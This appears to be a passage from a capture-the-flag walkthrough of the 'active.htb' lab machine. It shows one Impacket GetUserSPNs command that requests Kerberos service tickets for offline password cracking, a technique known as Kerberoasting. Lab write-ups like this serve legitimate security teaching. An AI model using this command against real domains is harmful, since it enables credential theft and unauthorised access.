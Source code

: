 ```
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
```

This will get a list of service usernames which are associated with normal user accounts.


It will also get a ticket that we can crack.







